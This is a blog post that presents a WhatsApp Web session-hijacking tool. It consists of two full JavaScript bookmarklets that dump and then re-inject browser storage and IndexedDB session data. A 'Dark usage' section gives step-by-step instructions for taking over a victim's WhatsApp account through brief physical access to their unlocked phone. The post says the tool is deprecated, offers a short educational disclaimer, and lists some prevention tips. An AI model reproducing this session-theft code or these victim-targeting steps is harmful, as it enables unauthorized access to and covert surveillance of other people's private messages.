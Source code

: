 ```yaml
---
layout: post
title: "WhatsApp Web Session Dumper"
author: Flareonz44
tags: [cybersec]
type: project
metadesc: An [outdated] whatsapp web hijack that cones the session into a file
---
```


***All content shown in this post is exclusively for educational purposes. I'm not responsible for the use you make of the information shown here.***

The code is also on my [GitHub](https://github.com/Flareonz44/WhatsApp-Web-Session-Dumper)!

# IMPORTANT NOTICE (08/09/2022)

This tool has been deprecated due to changes in the WhatsApp Web application. The method previously used by this tool no longer works with WhatsApp Web, but it may still be effective on other platforms. Nonetheless, I'll keep this page here for future generations :)

## About

Well, this is what its name suggests: It's a dumper that extracts all the WhatsApp Web data stored on your computer into a file. You can then inject this data into another computer, granting access to the web session without the need to scan the QR code again. This repository consists of two files: wawebb_session_dumper.js and wawebb_session_injector.js. These two files are independent and can be run separately without affecting the results. Let's take a closer look at what they do.

### wawebb_session_dumper.js

This script iterates over all the data stored on your localStorage, arranges it and creates a file that is automatic downloaded, after you provide a name fot the file.

```javascript
function save(data) {
    var doc = document.createElement("a");
    doc.href = window.URL.createObjectURL(new Blob([data], {
        type: "text/plain"
    }));
    filen = prompt("Input session name", "saved-session") + ".was";
    if (!(filen == "null.was")) {
        doc.download = filen;
        doc.click();
        alert("\nFile successfuly saved as " + filen + "\n\nCreated by Flareonz44");
    }
}
if ((document.title).indexOf("WhatsApp") >= 0) {
    naou = "";
    for (i = 0; i < localStorage.length; i++) {
        keyn = localStorage.key(i);
        datag = localStorage.getItem(localStorage.key(i));
        if (!(i == 0)) {
            naou += "\n";
        }
        naou += keyn + ":::" + datag;
    }
    naou += "\n>>\n";
    for (i = 0; i < sessionStorage.length; i++) {
        keyn = sessionStorage.key(i);
        datag = sessionStorage.getItem(sessionStorage.key(i));
        if (!(i == 0)) {
            naou += "\n";
        }
        naou += keyn + ":::" + datag;
    }
    naou += "\n>>\n";
    idb = indexedDB.open("wawc");
    idb.onsuccess = function() {
        dbm = idb.result;
        d1 = dbm.transaction("user", "readwrite").objectStore("user").getAll();
        d1.onsuccess = function() {
            naou += JSON.stringify(d1.result) + "\n";
            save(naou);
        }
    }
} else {
    alert("\nERROR\nRun script inside WhatsApp's tab!");
}

```

### wawebb_session_injector.js

This scripts does the inverse process of the script above, it asks for the data (created with the last script) of the file, and then it restores all the saved data back to localStorege, then it reloads the page.

```javascript
if ((document.title).indexOf("WhatsApp") >= 0) {
    sesf = prompt("Paste raw data from .was files");
    if (sesf.indexOf(">>") >= 0) {
        sesfarr = sesf.split(">>");
        for (i = 0; i < sesfarr.length; i++) {
            if (i == 0) {
                localStorage.clear();
                keyl = sesfarr[0].split("\n");
                for (j = 0; j < keyl.length; j++) {
                    if (keyl[j].indexOf(":::") >= 0) {
                        key = keyl[j].split(":::")[0];
                        val = keyl[j].split(":::")[1];
                        localStorage.setItem(key, val);
                    }
                }
            } else if (i == 1) {
                sessionStorage.clear();
                keyl = sesfarr[0].split("\n");
                for (j = 0; j < keyl.length; j++) {
                    if (keyl[j].indexOf(":::") >= 0) {
                        let key = keyl[j].split(":::")[0];
                        let val = keyl[j].split(":::")[1];
                        sessionStorage.setItem(key, val);
                    }
                }
            } else if (i == 2) {
                sesfarr[2] = sesfarr[2].replace(/(\n)/g, "");
                let idb = indexedDB.open("wawc");
                idb.onsuccess = function() {
                    let dbm = idb.result;
                    let d1 = dbm.transaction("user", "readwrite").objectStore("user").clear();
                    d1.onsuccess = function() {
                        let d2 = dbm.transaction("user", "readwrite").objectStore("user").put(JSON.parse(sesfarr[2]));
                    }
                }
            }
        }
        alert("\nData successfuly loaded!" + "\n\n       Created by Flareonz44");
        location.reload();
    } else {
        alert("\nERROR\nA valid raw data must be pasted!");
    }
} else {
    alert("\nERROR\nRun Script inside WhatsApp's tab!");
}
```

## Usage

This is very easy to use. First you have to create two bookmarks on Chrome: one for the dumper and the other for the injector. Select all the code above, copy it, and then, create a new bookmark. In the name write wawebb_session_dumper.js and where sais 'URL', delete all and write 'javascript: ' (without quotes and with a space between the ':' and the code, like 'javascript: functi...' rather than 'javascript:functi...') and then, paste the copied code next tho the ': ', like so:

![bookmark how to](/images/2022-8-9-ws-web-session-dumper/1.png)

Then do the same for the other script and save those bookmarks into the same folder. Now go to WhatsApp Web and scan the QR as always. Wait until it is completely loaded and when you are ready, go to your bookmark folder and click on wawebb_session_dumper.js. A prompt will apear asking for for a name for the session, just provide the name you like and click on ok. A file will be downloaded. Thats the session file.

Now, copy that file into an USB stick, or save it on the cloud (or wherever you want) and go to another computer. Open the session file with the notepad and select all the text and copy it to the clipboard. Go to WhatsApp Web on Chrome and launch the bookmark wawebb_session_injector.js. A promp will apear asking you to provide the content of the session file. Just Ctrl + V or right-click-then-paste on the textbox the content of the clipboard and hit ok. Finally realod the page and thats all! you must be logged with the web session like in the first computer.

## Notes

This script was also tested on Android 10 Chrome Browser, so you can dump and inject on Android too! Anyway, I'm afraid that there is not a 100% compatibility, so it may work on the most of the latest devices, but it could fail to execute on older devices. This script was tested on Chrome Browser version 97. Not tested on other browsers.

## Dark usage

As a cyber-security entusiast, I must say that this tool could be used to gain access to someone's WhatsApp. You only need to know the victim's phone password (or PIN) and have phisical access to his phone for at least 1 minute with Internet connection.

Open Chrome Browser on your phone, search for 'whatsapp web' and, on the Google's results page, put your browser in Desktop Mode, then reload the result page and go to Whatsapp Web. Put your phone in landscape mode (rotate it) and wait untill you see the QR code. When it is loaded, grab the victim's phone, go to his WhatsApp and add a new Conected Device, then scan the QR on your phone and when it's done, launch the wawebb_session_dumper.js bookmark (previously created on your Chrome Browser) and then provide a name for the session file.

The next step is to copy the session file to your personal computer and injet it on your browser. Now you can see the victim's WhatsApp.

## Prevention

Here you have some tips for protecting yourself from this kind of attack:
- Always check what Connected Devices you have, and close the ones that seems suspicious.
- Change you phone PIN regularly.
- Prefere text-based password for your phone, rather than a Pattern (which is more easy to remember and hack) and/or
- biometric-based.
- Add a second password to open WhatsApp (you can use an app like Norton App Lock)
- Add the second fingerprint authentication on WhatsApp (only availiable on latest releases and on some devices only)

Till next time!